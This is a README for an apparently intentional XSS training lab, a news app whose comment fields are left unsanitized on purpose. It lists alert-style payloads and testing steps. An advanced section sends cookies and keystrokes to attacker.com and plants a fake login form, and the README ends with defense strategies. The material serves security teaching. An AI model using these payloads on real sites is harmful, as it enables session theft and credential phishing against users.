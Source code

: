 # XSS News App Lab

## Overview
This lab demonstrates Cross-Site Scripting (XSS) vulnerabilities in a news application's comment system. The application allows users to read news articles and post comments without proper input sanitization.

## Vulnerability
The comment system is vulnerable to both Stored XSS and Reflected XSS attacks:

### Stored XSS in Comments
- **Username field**: User input is displayed without sanitization
- **Comment text field**: User input is displayed without sanitization
- **Impact**: Malicious scripts are stored in the database and executed when other users view the comments

## XSS Payload Examples

### 1. Basic Alert
```html
<script>alert('XSS Test')</script>
```

### 2. Image Tag with OnError
```html
<img src="x" onerror="alert('Image XSS')">
```

### 3. SVG Tag
```html
<svg onload="alert('SVG XSS')">
```

### 4. Iframe
```html
<iframe src="javascript:alert('Iframe XSS')"></iframe>
```

### 5. Input Tag
```html
<input autofocus onfocus="alert('Input XSS')">
```

### 6. Meta Tag Redirect
```html
<meta http-equiv="refresh" content="0;url=javascript:alert('Meta XSS')">
```

### 7. Link Tag
```html
<link rel="import" href="javascript:alert('Link XSS')">
```

## How to Test

### 1. Access the Application
```
http://localhost:8082
```

### 2. Navigate to an Article
Click on any news article to view it and access the comments section.

### 3. Submit Malicious Comments
Use any of the XSS payloads above in either the username or comment fields.

### 4. Observe the XSS Execution
The malicious script will execute when the comment is displayed to other users.

## Advanced XSS Techniques

### 1. Cookie Stealing
```html
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
```

### 2. Keylogging
```html
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key=' + e.key);
}
</script>
```

### 3. Defacing the Page
```html
<script>document.body.innerHTML = '<h1>HACKED!</h1>'</script>
```

### 4. Phishing
```html
<script>
document.body.innerHTML = '<form action="http://attacker.com/steal"><input name="username"><input type="password" name="password"><button type="submit">Login</button></form>';
</script>
```

## Database Structure

### Articles Table
- `id` - Primary key
- `title` - Article title
- `content` - Article content
- `author` - Article author
- `created_at` - Creation timestamp

### Comments Table
- `id` - Primary key
- `article_id` - Foreign key to articles
- `username` - Commenter's name (VULNERABLE)
- `comment_text` - Comment content (VULNERABLE)
- `created_at` - Creation timestamp

## Defense Strategies

### 1. Input Validation
- Validate input length, format, and allowed characters
- Reject suspicious patterns

### 2. Output Encoding
- Use `htmlspecialchars()` for HTML output
- Use `json_encode()` for JavaScript contexts
- Use appropriate encoding for different contexts

### 3. Content Security Policy (CSP)
- Implement CSP headers to restrict script execution
- Whitelist allowed script sources

### 4. HTTP Security Headers
- X-XSS-Protection
- X-Content-Type-Options
- X-Frame-Options

### 5. Sanitization Libraries
- Use HTML Purifier for PHP
- Implement whitelist-based sanitization

## Educational Purpose
This lab is designed for authorized security testing and education only. Do not use these techniques on unauthorized systems.